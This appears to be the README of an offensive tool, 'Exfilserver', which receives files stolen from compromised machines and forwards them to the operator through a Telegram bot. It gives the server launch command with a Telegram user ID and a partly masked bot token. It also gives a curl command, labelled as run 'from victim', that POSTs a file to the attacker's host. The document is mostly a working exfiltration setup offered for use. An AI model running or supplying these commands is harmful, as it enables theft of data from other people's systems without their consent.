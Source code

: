 ## Exfilserver

> Data exfiltration via upload using curl or similar...
> Get the file directly on your telegram!

### Run in you host:

```
python3 server.py -p 80 -f /tmp/files -tu 3030111111 -tt 2246422426:BBB-3aaah1xx99hQSC4uxxxxbu4nZilexxx
```

### Upload from victim:

```
curl -X POST -F "file=@./file" http://<youhostname>:80/exf
```

_OBS: If the file is too large, the telegram will not be able to send it due to its limitations_